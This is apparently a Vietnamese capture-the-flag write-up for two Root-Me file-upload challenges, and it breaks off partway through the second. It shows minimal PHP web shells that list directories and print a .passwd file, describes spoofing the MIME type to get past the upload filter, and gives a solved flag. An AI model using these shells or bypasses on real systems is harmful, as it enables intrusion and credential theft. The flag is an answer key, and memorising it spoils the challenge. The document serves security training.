 # 4.File upload - MIME type(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch21/?action=upload](http://challenge01.root-me.org/web-serveur/ch21/?action=upload) 
#### Statement
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333980074_234013948963711_6646913816306690753_n.png?stp=dst-png_s320x320&_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=wqSs7EbybtIAX80kKwh&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTjbw0YUAM2ONwj3cigdfZ1ORCX9CPMewPXszUDcd-GLg&oe=6423C7CF)

Bài này đề bài tương tự như câu trên là upload file php để đọc file `.passwd`.Viết shell php đơn giản:
```PHP
<?php
System("
    ls -la ../;
");
?>
```
Mình thử up lên thì nhận được `Wrong file type !` như vậy bài nay đang bắt `type` của file nên mình cần phải chỉnh `content-file` thành các định dạng như image/jpeg...
Sau đó up lên thì thành công.
Bây giờ mình cần tìm xem file `.passwd` ở đâu.
```Php
<?php
System("
    cat ../../../.passwd;
");
?>
```
>Flag : a7n4nizpgQgnPERy89uanf6T4

# 5.File upload - Null byte(Root me)
Link challenge : [http://challenge01.root-me.org/web-serveur/ch22/?galerie=upload](http://challenge01.root-me.org/web-serveur/ch22/?galerie=upload)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/328001724_1883100512062136_8778815827088973325_n.png?stp=dst-png_p206x206&_nc_cat=107&ccb=1-7&_nc_sid=aee45a&_nc_ohc=oAyPVf6emawAX-6hO2K&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRujXT5KHNyFKRDyTGXKct1Uom0WlJi2-MFmb7YM9Mzmg&oe=6423ADDC)

Ban đầu mình cũng phải viết 1 shell php đơn giản:
```Php
<?php
System("
    ls -la ../;
");
?>
```
Sau khi up lên thì ta nhận được thông báo lỗi `Wrong file type !` nên mình thử chỉnh lên type như bài trên thử xem.

Sau khi up lại thì ta lại nhận được thông báo lỗi `Wrong extension!` như vậy bài này mình phải chỉnh cả 2.
